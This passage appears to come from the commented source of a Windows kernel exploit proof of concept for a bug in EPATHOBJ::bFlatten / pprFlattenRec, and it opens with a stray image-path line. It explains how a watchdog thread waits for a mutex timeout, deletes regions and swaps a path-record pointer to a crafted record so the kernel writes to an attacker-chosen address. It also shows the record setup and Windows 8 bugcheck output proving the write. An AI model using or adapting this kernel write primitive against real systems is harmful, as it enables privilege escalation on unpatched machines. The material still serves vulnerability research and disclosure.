 //         }
//       }
//
//       /* ... */
//   }
//
//   While it's spinning, we clean up in another thread, then patch the thread (we
//   can do this, because it's now in userspace) to trigger the exploit. The first
//   block of pprFlattenRec does something like this:
//
//       if ( pprNew-&gt;pprPrev )
//         pprNew-&gt;pprPrev-&gt;pprnext = pprNew;
//
//   Let's make that write to 0xCCCCCCCC.
//
//   DWORD WINAPI WatchdogThread(LPVOID Parameter)
//   {
//
//       // This routine waits for a mutex object to timeout, then patches the
//       // compromised linked list to point to an exploit. We need to do this.
//       LogMessage(L_INFO, "Watchdog thread %u waiting on Mutex () %p",
//                          GetCurrentThreadId(),
//                          Mutex);
//
//       if (WaitForSingleObject(Mutex, CYCLE_TIMEOUT) == WAIT_TIMEOUT) {
//           // It looks like the main thread is stuck in a call to FlattenPath(),
//           // because the kernel is spinning in EPATHOBJ::bFlatten(). We can clean
//           // up, and then patch the list to trigger our exploit.
//           while (NumRegion--)
//               DeleteObject(Regions[NumRegion]);
//
//           LogMessage(L_ERROR, "InterlockedExchange(%p, %p);", &amp;PathRecord-&gt;next, &amp;ExploitRecord);
//
//           InterlockedExchangePointer(&amp;PathRecord-&gt;next, &amp;ExploitRecord);
//
//       } else {
//           LogMessage(L_ERROR, "Mutex object did not timeout, list not patched");
//       }
//
//       return 0;
//   }
//
//       PathRecord-&gt;next    = PathRecord;
//       PathRecord-&gt;prev    = (PVOID)(0x42424242);
//       PathRecord-&gt;flags   = 0;
//
//       ExploitRecord.next  = NULL;
//       ExploitRecord.prev  = 0xCCCCCCCC;
//       ExploitRecord.flags = PD_BEZIERS;
//
//   Here's the output on Windows 8:
//
//   kd&gt; g
//   *******************************************************************************
//   *                                                                             *
//   *                        Bugcheck Analysis                                    *
//   *                                                                             *
//   *******************************************************************************
//
//   Use !analyze -v to get detailed debugging information.
//
//   BugCheck 50, {cccccccc, 1, 8f18972e, 2}
//   *** WARNING: Unable to verify checksum for ComplexPath.exe